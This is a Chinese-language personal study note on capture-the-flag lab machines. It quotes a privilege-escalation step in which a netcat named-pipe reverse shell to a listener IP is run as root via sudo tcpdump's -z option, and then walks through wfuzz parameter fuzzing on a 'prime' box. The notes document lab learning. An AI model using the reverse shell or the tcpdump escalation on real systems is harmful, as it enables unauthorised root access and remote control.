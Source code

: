 看了大佬的wp是这样的

```
echo 'mknod backpipe p && nc 61.139.2.153 4444 0<backpipe | /bin/bash 1>backpipe' > priv.sh

chmod +x priv.sh 

sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/priv.sh -Z root

```

![image.png](https://s2.loli.net/2025/04/25/hvb1TqOUoDAW4XC.png)

![image.png](https://s2.loli.net/2025/04/25/LAqawkn3PyTGDIY.png)

成功提权

# prime

^53b3a2

## nmap扫描端口

## 字典爆破 
这一步是很草率了 在使用完字典之后应该进行一个过滤 过滤特定的后缀 如.txt .php .html

加上这一步能找到secret.txt

![image.png](https://s2.loli.net/2025/04/29/rxELcia5lyg6fsZ.png)

txt告诉我们还要找到location.txt 应该是

## wuff
[[linux工具#wfuff]]
这个确实没接触过 不了解流程

意思就是过滤出特别的那个payload

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://61.139.2.161/index.php?FUZZ

wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hh 136 http://61.139.2.161/index.php?FUZZ
```

![image.png](https://s2.loli.net/2025/04/29/pkWqT31d8o54gMP.png)

最开始是筛选出404的参数

会发现chars的数值是一样的

用-hh来过滤出除了136的所有参数 能出现一个file
